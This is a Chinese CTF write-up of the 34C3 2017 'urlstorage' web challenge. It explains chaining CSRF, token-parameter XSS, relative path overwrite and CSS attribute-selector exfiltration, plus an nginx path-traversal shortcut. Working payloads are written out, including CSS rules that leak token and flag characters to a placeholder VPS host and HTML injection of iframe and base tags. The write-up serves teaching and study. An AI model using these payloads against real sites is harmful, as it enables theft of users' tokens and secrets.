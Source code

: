 # 34c3-2017-urlstorage

对题目稍微测试可以发现:
* `/urlstorage` 页面修改 url 存在 CSRF
* `/flag?token={xss}` 页面 token 参数存在 XSS，最多 64 个字符，获取 flag 只依赖前 32 位
* `/contact` 页面发送参数给 admin，用于攻击

同时站点存在 CSP
```
Content-Security-Policy: frame-ancestors 'none'; form-action 'self'; connect-src 'self'; script-src 'self'; font-src 'self' ; style-src 'self';
```

`frame-src` 和 `default-src` 未定义，因此站点可以加载任意 iframe

## rpo

因为整个站点是 django 写的，页面通过路由实现，因此在后面加入什么路径，返回的页面都与 `/urlstorage` 一样

```
http://127.0.0.1:8012/urlstorage/random_str/123 = http://127.0.0.1:8012/urlstorage
```

然后发现页面采用相对路径导入 CSS，存在 rpo 漏洞

```html
<link href="static/css/milligram.min.css" type="text/css" rel="stylesheet" media="screen,projection">
```

因此访问 `http://127.0.0.1:8012/urlstorage/random_str/123` 时，加载的 CSS 文件为 `http://127.0.0.1:8012/urlstorage/random_str/123/static/css/milligram.min.css`，后面全部被路由处理忽略，返回 urlstorage 页面的源码

![rpo](img/rpo.png)

页面源码被当作 CSS 加载，url 可控，我们便可以控制页面内容

这里有个 trick(摘自 Lorexxar 师傅博客)：
> CSS 在加载的时候与 JS 一样是逐行解析的，不同的是 CSS 会忽略页面中不符合 CSS 语法的行

尝试 POST `url=%0a{}%0a*{color:red}` 触发 rpo

![css](img/css.png)

## 获取 token
可以通过 css 选择器去匹配网页链接中的内容，结合 rpo 外带数据

```
a[href^=flag\?token\=0]{background: url(//vps/rpo/logging.php?c=0);}
a[href^=flag\?token\=f]{background: url(//vps/rpo/logging.php?c=f);}
..
a[href^=flag\?token\=10]{background: url(//vps/rpo/?c=10);}
a[href^=flag\?token\=11]{background: url(//vps/rpo/?c=11);}
..
```

在 VPS 上写入如下功能的 PoC：
1. 生成 CSRF 修改 admin 的 url 为 css payload 的表单
2. 提交表单到 `/urlstorage/rpo`，触发 css payload
3. 循环获取 32 位 token

这里有一个坑，由于 css 选择器在匹配的时候， 如果 value 值首字符是数字，就不会将 value 当做合法字符串，必须加双引号。
而 token 开头的字符可能为数字，flag 开头也为 34c3，单/双引号均被编码，因此都需要用其他方法生成 payload：
```
以获取 flag 为例
1. 使用css的*模糊匹配

#flag[value*=C3_1]{background: url(http://vps/?flag=C3_1);}

* 号选择器代表这属性中包含这个字段，由于flag中有_存在，所以不会对flag的获取有影响

2. 使用16进制编码

#flag[value^=\33\34\43\33]{background: url(http://vps/?flag34c3);}
```

contact 页面提交 url  `http://127.0.0.1/flag?token=</title><iframe/src=vps/exploit.php?step=1>`

虽然这里 `XSS-Protection=1`，但 admin 是运行在 phantomjs 上，因此应该不会有 XSS Auditor

## 获取 flag
flag 保存在一个 name 为 flag 的 textbox，同样利用 css 带出数据

payload
```
#flag[value*=C3_0]{background: url(http://vps?flag=C3_0);}
#flag[value*=C3_1]{background: url(http://vps?flag=C3_1);}
...
#flag[value*=C3_f]{background: url(http://vps?flag=C3_f);}
```

但是由于 flag 在 `/flag` 页面下，而 css 触发 rpo 是在 `/urlstorage` 页面下

这里有个知识点：
> 在浏览器处理相对路径时，一般情况是获取当前 url 的最后一个 / 前作为 base url，但如果页面中给出了 base 标签，那么就会读取 base 标签中的 url 作为 base url。

因此我们可以通过 XSS 注入 `/flag?token=06b05e82a2e5443d36d3cc34007fb8a6</title><base/href=/urlstorage/rpo>`，让 `/flag` 页面导入的 css 路径为 `/urlstorage/rpo/static/css/milligram.min.css`

官方 [PoC](exploit.php)

## 非预期
题目用了 nginx 做反向代理，其中静态文件目录配置如下

```c
 location /static {
     alias /app/urlstorage/static/;
 }
```

存在目录穿越漏洞（漏洞详情戳 [三个案例看 Nginx 配置安全](https://paper.seebug.org/335/#_1))

访问 `http://127.0.0.1:8012/static../views.py` 获得源码，直接 `/static../templates/flag.html` 获得 flag

## References
[34C3 CTF 2017 – URLSTORAGE WRITEUP](https://l4w.io/2017/12/34c3-ctf-2017-urlstorage-writeup/)
[34c3 Web部分Writeup](https://lorexxar.cn/2018/01/02/34c3-writeup/)
[【技术分析】RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)